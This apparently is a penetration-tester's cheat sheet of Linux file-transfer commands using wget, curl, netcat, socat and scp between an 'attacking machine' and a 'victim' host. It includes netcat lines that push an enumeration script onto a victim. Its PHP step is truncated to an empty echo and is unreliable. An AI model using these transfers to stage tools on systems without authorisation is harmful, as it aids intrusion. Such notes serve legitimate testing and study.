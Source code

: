# Linux File Transfer

- Wget

wget 192.168.1.102:9999/file.txt

- Curl

curl -O http://192.168.0.101/file.txt

- Netcat

On attacking machine:
nc -lvp 4444 < file

On target machine:
nc 192.168.1.102 4444 > file

So on the victim-machine we run nc like this:
nc -lvp 3333 > enum.sh

And on the attacking machine we send the file like this:
nc 192.168.1.103 < enum.sh

I have sometimes received this error:
This is nc from the netcat-openbsd package. An alternative nc is available

I have just run this command instead:
nc -l 1234 > file.sh

- Socat
Server receiving file:
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
Server sending file:
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

With php
echo "" > down2.php

- SCP
Now we can copy files to a machine using scp
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
